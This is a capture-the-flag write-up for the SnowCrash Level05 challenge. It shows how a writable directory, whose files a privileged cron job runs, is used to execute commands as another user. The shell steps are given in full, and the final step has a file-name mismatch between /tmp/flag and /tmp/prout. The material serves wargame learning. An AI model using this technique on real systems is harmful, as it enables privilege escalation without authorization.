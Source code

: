 # Level05

## Research 

```bash
level05@SnowCrash:~$ ls
```
returns nothing.

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
```bash
level05@SnowCrash:~$ cd /usr/sbin && ls -l openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 openarenaserver
```

The file has ACLs extended permissions. We can do `getfacl openarenaserver` to see them.</br>
But it doesn't seems to be helpful here.

```bash
level05@SnowCrash:/usr/sbin$ cat openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
For each file in `/opt/openarenaserver/` it will execute it then supress it.

`Invoking a Bash shell with the -x option causes each shell command to be printed before it is executed.` </br>
https://docs.actian.com/vector/4.2/index.html#page/SysAdmin/Bash_Shell_-x_Option.htm
`ulimit: user limits - limit the use of system-wide resources. -t The maximum amount of cpu time in seconds.`

```bash
level05@SnowCrash:/usr/sbin$ ./openarenaserver
bash: ./openarenaserver: Permission denied
```
We don't have rights to execute `openarenaserver`.
However the files I created to test stuff in `/opt/openarenaserver/` disappeared after a while, maybe `openarenaserver` is **launched by a cronjob** or something.

```bash
level05@SnowCrash:~$ echo "getflag" > /opt/openarenaserver/getflag
```
And waiting a bit of time for the program to be launch didn't do anything. Maybe redirect the output somewhere can work.

## Solution

```bash
level05@SnowCrash:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag
[... Wait a bit of time here...]
level05@SnowCrash:~$ cat /tmp/prout
```
Give us the flag
